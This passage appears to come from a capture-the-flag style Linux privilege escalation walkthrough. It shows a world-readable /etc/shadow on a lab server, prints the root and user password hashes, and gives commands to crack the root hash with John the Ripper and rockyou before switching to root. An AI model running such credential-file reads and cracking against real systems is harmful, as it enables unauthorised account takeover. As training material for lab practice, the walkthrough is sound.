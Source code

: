Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Switch to the root user, using the cracked password:

```bash
su root
```

Remember to exit out of the root shell before continuing!

## #1 - What is the root user's password hash?

**On the Server**

```bash
user@debian:~/tools/mysql-udf$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
user@debian:~/tools/mysql-udf$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```
